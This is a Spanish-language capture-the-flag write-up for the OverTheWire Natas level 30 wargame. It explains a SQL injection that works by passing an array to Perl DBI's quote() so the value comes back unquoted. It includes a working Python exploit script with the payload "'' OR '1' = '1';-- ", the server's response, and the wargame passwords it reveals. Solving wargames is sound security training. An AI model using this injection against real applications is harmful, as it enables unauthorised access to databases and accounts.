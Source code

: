 # Natas 30

#### URL: http://natas30.natas.labs.overthewire.org
#### Credenciales: natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH

El método quote toma el valor obtenido y lo escapa adecuadamente para que sea seguro incluirlo en una consulta SQL:
```perl
my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password'));
```

Si se llama a quote() con una lista de valores, y el segundo valor es un entero, se puede hacer que quote() devuelva un valor sin comillas. En otras palabras, si se proporciona un array, se llamará a la segunda definición de quote() en lugar de la primera, que era la prevista:

``` python
import requests
from base64 import b64encode

URL="http://natas30.natas.labs.overthewire.org/index.pl"
headers={'Authorization': f'Basic {b64encode(b"natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH").decode()}'}
data={"username": "natas31", "password": ["'' OR '1' = '1';-- ", 4]}
x = requests.post(URL,headers=headers,data=data)
print(x.text)
```

```
python3 natas30_sploit.py
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y`

PD: https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection/175872#175872


